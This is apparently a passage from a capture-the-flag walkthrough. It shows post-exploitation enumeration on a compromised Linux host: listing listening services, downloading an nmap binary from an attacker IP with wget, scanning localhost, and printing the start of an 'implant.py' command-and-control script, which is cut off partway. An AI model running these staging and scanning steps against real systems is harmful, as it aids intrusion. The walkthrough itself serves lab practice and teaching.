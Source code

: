 ```bash
ada@...:~$ ss -tulpn
ss -tulpn
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0      0           127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0      0      xx.xxx.xx.xxx%ens5:68           0.0.0.0:*            
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0      511             127.0.0.1:80           0.0.0.0:*            
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0      128                  [::]:22              [::]:*          
```

<h4>nmap</h4>

```bash
ada@...:/tmp$ wget http://xx.xxx.xx.xxx:8000/nmap-x64.tar.gz -o nmap
```

```bash
ada@...:/tmp$ tar -xzf nmap-x64.tar.gz
```

<p>

- 22 : ssh<br>
- 80 : http<br>
- 3306 : mysql<br>
- 33060 : mysqlx</p>

```bash
ada@...:/tmp$ ./nmap -sT -p- 127.0.0.1
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

<h4>implant.py</h4>

```bash
ada@...:~/.implant$ cat implant.py
cat implant.py
import base64
import binascii
import json
import platform
import subprocess
import time
from datetime import datetime
from pathlib import Path

import requests


def systeminfo():
    return {
        'os': platform.system(),
        'hostname': platform.node(),
    }


class Commander:
    def __init__(self, host, log_dir, port=81):
        self.log_dir = Path(log_dir)
        self.log_file = self.log_dir / f'{host}.log'
```